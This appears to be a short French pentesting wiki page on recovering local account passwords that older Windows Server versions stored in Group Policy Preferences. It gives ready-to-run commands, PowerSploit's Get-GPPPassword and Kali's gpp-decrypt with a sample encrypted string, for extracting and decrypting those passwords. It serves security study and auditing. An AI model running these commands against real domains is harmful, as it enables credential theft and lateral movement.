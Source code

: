 ```yaml
---
title: Group Policy Preferences
permalink: /Group_Policy_Preferences/
---
```


# Group Policy Preferences
Les anciennes versions de Windows Server permettent de définir des mots de passes de comptes locaux via des GPO. Ces mots de passe peuvent être récupérés par n'importe quel utilisateur du domaine.

Powersploit posséde une fonction qui va regarder les GPO et les parser pour identifier ce problème:
```
PS C:\> Get-GPPPassword -Server EXAMPLE.COM
```

Alternativement il y a un tool sous Kali:
```
root@kali:~# gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
